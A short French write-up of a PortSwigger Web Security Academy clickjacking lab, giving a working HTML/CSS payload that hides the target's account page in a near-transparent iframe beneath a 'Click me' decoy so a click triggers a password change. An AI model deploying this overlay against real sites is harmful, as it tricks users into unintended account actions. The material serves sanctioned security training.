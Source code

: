 # Lab

https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected

## Solution

Créer une div qui se supperpose avec un iframe qui pointe sur le formulaire de changement de mot de passe.

Positionner le texte `click` juste au dessus du bouton `Change password` de l'iframe et changer l'opacity de l'iframe à 0.0001 pour que le bouton soit cliquable. 

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:493px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a1e00d004fa179c81f4c0d600d0003b.web-security-academy.net/my-account"></iframe>
```

Le bot cliquera sur le bouton `Change password` et changera le mot de passe de l'utilisateur courant en cliquant sur le texte `Click me`.